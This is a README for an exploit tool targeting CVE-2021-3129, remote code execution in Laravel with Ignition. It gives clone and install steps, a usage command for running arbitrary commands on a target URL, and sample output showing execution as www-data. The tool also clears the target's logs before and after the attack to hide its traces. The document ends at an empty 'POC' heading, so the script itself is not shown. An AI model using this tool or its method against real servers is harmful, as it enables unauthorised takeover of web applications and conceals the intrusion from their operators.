

# CVE-2021-3129 Laravel Ignition RCE Exploit

This is a Python exploit script for CVE-2021-3129, a remote code execution vulnerability in Laravel when the Ignition package is installed. This vulnerability allows an attacker to execute arbitrary system commands via PHAR deserialization.

## Features
- Automatically generates the PHAR payload using `phpggc`
- Accepts user input for any command to execute (e.g., `id`, `whoami`, etc.)
- Automates the entire exploitation process, including clearing logs, injecting the payload, converting logs to PHAR, and triggering the deserialization

## Prerequisites
- Python 3.x
- `requests` library
- PHP installed on your system
- [phpggc](https://github.com/ambionics/phpggc) installed (for generating PHAR payloads)

## Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/0x0d3ad/CVE-2021-3129.git
    cd CVE-2021-3129
    ```

2. Install required Python packages:
    ```bash
    pip install requests
    ```

3. Run the script with the desired target and command:

    ```bash
    python3 CVE-2021-3129.py http://example.com --cmd 'id'
    ```

    Example output:
    
    ```bash
    [+] Generating PHAR payload for command: id
    [+] Trying to clear logs
    [+] Logs cleared
    [+] Convert log file to PHAR
    [+] Successfully converted logs to PHAR
    [+] PHAR deserialized
    ---------------------------------------
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ---------------------------------------
    [+] Trying to clear logs
    [+] Logs cleared
    ```

## Arguments

- `target` (required): The URL of the vulnerable Laravel application.
- `--cmd` (optional): The command to be executed on the target (default: `whoami`).
- `--log_path` (optional): The log file path to be used (default: `../storage/logs/laravel.log`).

## POC



